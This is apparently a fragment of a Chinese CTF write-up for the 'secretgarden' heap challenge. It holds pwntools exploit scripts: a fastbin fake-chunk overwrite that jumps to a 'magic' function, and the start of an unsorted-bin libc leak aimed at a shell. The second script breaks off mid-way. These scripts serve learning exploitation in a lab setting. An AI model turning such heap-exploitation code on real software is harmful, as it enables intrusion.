 ```python
raise_flower(0x50, p64(fake_chunk_addr), '3') #2
raise_flower(0x50, 'cccc', '4') #3
raise_flower(0x50, 'dddd', '5') #4
p = 'a'*22 + p64(elf.symbols['magic'])
debug()
raise_flower(0x50, p, '6') #5


r.interactive()
```



拿shell，麻烦点，还要leak libc

关键点：用unsorted_bin leak libc

```python
#encoding=UTF-8
from pwn import *


r = process('./secretgarden')
elf = ELF('./secretgarden')


context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
def debug(cmd=''):
    gdb.attach(r, cmd)
    pause()

def raise_flower(length, name, color):
    r.recvuntil("Your choice :")
    r.sendline('1')
    r.recvuntil('Length of the name :')
    r.sendline(str(length))
    r.recvuntil('The name of flower :')
    r.send(name)
    r.recvuntil('The color of the flower :')
    r.sendline(color)

def visit():
    r.recvuntil("Your choice :")
    r.sendline('2')

def remove(index):
    r.recvuntil("Your choice :")
    r.sendline('3')
    r.recvuntil('Which flower do you want to remove from the garden:')
    r.sendline(str(index))

def clean():
    r.recvuntil("Your choice :")
    r.sendline('4')

def leave():
    r.recvuntil("Your choice :")
    r.sendline('5')

# leak libc
raise_flower(0x80, 'aaaa', '0') #0
raise_flower(0x40, 'bbbb', '1') #1
remove(0)
clean()
```